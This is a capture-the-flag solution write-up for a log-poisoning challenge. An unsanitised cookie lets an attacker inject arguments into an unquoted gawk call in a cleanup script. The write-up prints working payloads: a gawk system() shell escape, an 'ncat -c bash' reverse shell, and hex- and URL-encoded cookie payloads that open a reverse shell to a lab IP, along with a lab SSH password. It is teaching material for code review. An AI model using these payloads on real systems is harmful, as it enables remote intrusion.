


# Solution

This challenge is an example of log poisoning and should be used as a whitebox/code review exercise. A simple web server use cookies to log user sessions. Every connection is logged in a master log file and create dedicated log file for the session. Every 30 seconds, a cleanup script collects the warnings of each dedicated log file based on the master log file and clear them.

Cookies is a value controlled by the user and is logged without sanitization. This shouldn't be a problem, but the Log file is used in another program. This other program, the cleanup script, looks for `Log file:` and take everything following as the log file. Therefore, a correctly modified cookie can be interpreted by the cleanup script as the wanted file.

The cleanup script has this line, which doesn't have quotes arround $file_path, the potentially controlled variable.

```bash
gawk -f $filter $file_path >>$warning_log_file &
```

Opening this script in VSCode with something like ShellCheck will warn you `Double quote to prevent globbing and word splitting.`. This mean, a string will be split and interpreted as different argument. You can try this:

```bash
t="-n /etc/passwd"
cat $t
```

Reading the documentation of gawk we can see:

```bash
    gawk [ POSIX or GNU style options ] -f program-file [ -- ] file .

[...]
       -e program-text
       --source program-text
              Use program-text as AWK program source code.  This option allows the easy intermixing of library functions (used via the  -f
              and  --include options) with source code entered on the command line.  It is intended primarily for medium to large AWK pro‐
              grams used in shell scripts.  Each argument supplied via -e is treated as if it begins with  an  implicit  @namespace  "awk"
              statement.
```

It seems that GNU Awk is able to execute some kind of script which is pass as argument `-f`, but it can also take a program-text as `-e`. Looking at [gtfobins](https://gtfobins.github.io/), we can find [gawk](https://gtfobins.github.io/gtfobins/gawk/) has the ability to execute shell command.

```bash
gawk 'BEGIN {system("/bin/sh")}'
```

Trying `-e` flag, this should be valid. Note it requires a valid file path at the end:

```bash
file_path='-e {system("/bin/sh")} /etc/passwd'
gawk -f $filter $file_path
```

But this give an error:

```bash
file_path='-e {system("ls -la")} /etc/passwd'
gawk -f $filter $file_path

gawk: fatal: cannot open shared library `a")}' for reading: No such file or directory
```

Since it uses a space, globbing interpret this has two arguments. So we have RCE, but can't use space and do not have any output... Trying to create a reverse shell using [revshells](https://www.revshells.com/), but they all use spaces. Looking at [PayloadsAllTheThings
/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) we could try a couple of techniques. But remembering we are in a string, we could use hex:

```bash
file_path='-e {system("ls\x20-la")} /etc/passwd'
gawk -f $filter $file_path
```

Ok, we can see in the Dockerfile ncat is installed.

```bash
ncat -c bash <ip> <port>
```

Note, here we use IP since we are in the same network, but we might need to have a publicly available IP through [Duckdns](https://www.duckdns.org/) or even [ngrok](https://ngrok.com/) or use the available docker. We have access to a local machine which we can connect to via ssh with the password : `traps-sizably-jogger-scrimmage2`

```bash
ssh user@<ip>
```

We can encode to Hex using [CyberChef](https://gchq.github.io/CyberChef/).

```bash
\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x30\x2e\x30\x2e\x30\x2e\x30\x20\x34\x34\x34\x34
```

Cool, we have our final payload:

```bash
Log file:-e {system("\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x31\x37\x32\x2e\x32\x32\x2e\x30\x2e\x31\x20\x34\x34\x34\x34")} /etc/passwd
```

Which we need to URL encode:

```shell
Log%20file%3A%2De%20%7Bsystem%28%22%5Cx6e%5Cx63%5Cx61%5Cx74%5Cx20%5Cx2d%5Cx63%5Cx20%5Cx62%5Cx61%5Cx73%5Cx68%5Cx20%5Cx31%5Cx37%5Cx32%5Cx2e%5Cx32%5Cx32%5Cx2e%5Cx30%5Cx2e%5Cx31%5Cx20%5Cx34%5Cx34%5Cx34%5Cx34%22%29%7D%20%2Fetc%2Fpasswd
```

Open a listener:

```shell
nc -lvnp <port>
```

Set the cookie to our payload and get the page.




Succes! We have a reverse shell, we can `ls` and `cat` the flag!
